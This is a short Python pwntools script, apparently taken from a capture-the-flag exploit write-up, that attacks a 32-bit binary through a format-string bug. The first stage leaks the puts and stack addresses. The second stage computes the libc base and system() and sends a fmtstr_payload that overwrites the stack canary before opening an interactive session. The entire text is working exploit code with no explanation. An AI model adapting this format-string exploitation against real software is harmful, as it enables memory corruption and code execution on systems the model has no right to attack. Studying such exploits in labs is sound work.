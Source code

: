 ```python
# stage 1: libc leak, stack leak, set fini to main
payload = "\xC0\x9C\x04\x08%7$s\xAC\x9B\x04\x08%72$X%134513950X%9$n"

r.sendline(payload)
log.info("sent stage 1")

r.recvuntil("LIST ")
line = r.recvline()
leaked_puts = u32(line[4:8].rstrip().ljust(4, "\x00"))
leaked_stack = int("0x" + line[16:24], 16)

log.info("leaked puts: " + hex(leaked_puts))
log.info("leaked stack: " + hex(leaked_stack))

# stage 2: calculate canary, calculate libc, set canary to badvals, stackcheck to main, printf to system
canary = leaked_stack - 0x104
libc.address = leaked_puts - libc.sym["puts"]
log.info("libc base address: " + hex(libc.address))

system = libc.sym["system"]

writes = {canary: 0xFFFFFFFF}#, stack_chk_fail_got: 0x08048536, printf_got: system}

payload = fmtstr_payload(7, writes)

r.sendline(payload)
log.info("sent stage 2")

r.interactive()
```
